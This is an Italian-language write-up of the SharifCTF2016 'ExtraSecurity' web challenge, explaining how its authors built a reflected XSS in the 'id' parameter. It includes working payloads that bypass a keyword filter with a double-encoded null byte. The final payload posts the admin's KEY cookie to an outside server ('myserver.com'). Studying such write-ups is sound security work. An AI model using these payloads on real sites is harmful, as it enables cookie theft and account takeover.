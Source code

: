 ```yaml
---
layout: post
title:  "SharifCTF2016 - ExtraSecurity"
date:   2016-12-19 15:30
categories: CTF
tags: [Web,SharifCTF2016]
author: jbz
---
```



Questa sfida web richiedeva di fare 'firmare' all'utente amministratore del sito un numero.

![L'homepage della challenge](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_1.png)

Offriva la possibilita' di firmare con la propria chiava (impostata dal server in un cookie 'KEY') o di richiedere all'amministratore attraverso un form di effettuare la firma per noi. Dal testo non era chiaro quale fosse esattamente la strada da prendere: se fosse necessario rubare il cookie all'admin o se bastasse effettivamente utilizzare il form con qualche modifice.
Il testo specificava esplicitamente che l'admin avrebbe utilizzato Chrome per vedere le richieste e che quindi avrebbe filtrato le XSS.

Il primo problema consisteva nel fatto che nella propria pagina effettuare la firma, all'invio del form veniva visualizzato un popup di errore e si veniva reindirizzati prima di qualsiasi altra azione.

![Il popup di errore prima del reindirizzamento](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_4.png)

(http://ctf.sharif.edu:8083/wait_and_real_sign.php?content=259&id=<team_id>)

Dal sorgente pagina si puo' quindi notare questo codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ";
</script>
```
Che e' quello che causa la reindirizzazione.

Piu' in basso si nota anche il seguente codice, che pero' non viene eseguito:

```
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MjU5"),
            content: "MjU5",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```

Con qualche test breve si intuisce subito che il campo GET 'id' puo' essere vulnerabile ad XSS ma che e' presente un filtro custom che filtra la maggior parte delle keyword o simboli: eval, alert, document, this sono solo alcuni dei filtri presenti. C'e' inoltre un limite di caratteri.

La nostra idea era quella di sfruttare la vulnerabilita' nel campo 'id', il cui contenuto viene riflesso sia nel primo script che nel secondo per rubare il cookie 'KEY' all'admin e effettuare la firma in autonomia.
Cerchiamo quindi un payload che fermi l'esecuzione del primo script e che ci permetta invece di modificare l'url di destinazione in poForm nel secondo, il tutto senza venire bloccati dal filtro di Chrome.

Il primo step e' trovare un modo per rompere il primo script ma non il secondo, e questo e' possibile grazie alla scelta degli organizzatori di usare apici doppi (") nel primo e apici singoli (') nel secondo.


`view-source:http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>};prompt(c['KEY']);a={'p%27:'"&content=1`

Questo payload contiene un apice doppio alla fine che rompe la sintassi del primo script, mentre chiude con un apice semplice il campo id nel secondo script, aggiunge prompt(c['KEY']) (equivalente di alert(c['KEY'] ma non filtrato), e crea un nuovo dict per completare la sintassi gia' esistente.

Risulta quindi

```<script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"";
    </script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```
Il che conferma la spiegazione sopra.

![PoC](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_2.png)

Ora il grosso problema era il fatto che anche qualsiasi declinazione della parola 'post', 'xml' o simili facevano scattare il filtro, mentre altri tipi di offuscamento come jsfuck risultavano in una stringa troppo lunga.
Dopo diversi tentativi, supponendo che il filtro fosse realizzato applicativamente (e che quindi non ci fosse un WAF vero e proprio), ed essendo l'applicazione in PHP, iniziamo a provare inserendo null bytes %00 altri caratteri come %0a e %0d.
Il null byte funziona ed il filtro smette di funzionare per qualsiasi carattere/strings dopo la presenza di %00. Continuando nei test noto pero' che anche Chrome ha qualche problema nel gestire la sintassi in caso di null bytes nel sorgente (al momento del writeup non riesco a riprodurre il problema..), provo quindi effettuando un double encoding, cioe' inserendo %2500 e noto che funziona lo stesso. Il payload finale quindi consiste in:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>'};%0a/*%2500*/%0apostForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"&content=1`

Che risulta nel seguente codice:

```
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"";
    </script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![Gli errori nella console dimostrano la mancata esecuzione del primo script e la corretta sintassi del secondo](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_3.png)

Da 'garbage' in poi il codice serve solo per non causare errori di sintassi.
Da notare che il filtro XSS di Chrome in questo scenario non viene mai condirato in quanto la XSS non richiede tag HTML poiche' il payload finisce gia' all'interno di tag <script>.

La richiesta di firma all'admin inviava una POST che conteneva un campo URL che lasciava intendere che fosse quello che l'admin avrebbe visitato per effettuare la firma. Bisognava quindi modificare quel campo con il payload descritto sopra.

Purtroppo non siamo riusciti a risolverla in tempo per ottenere il punteggio.
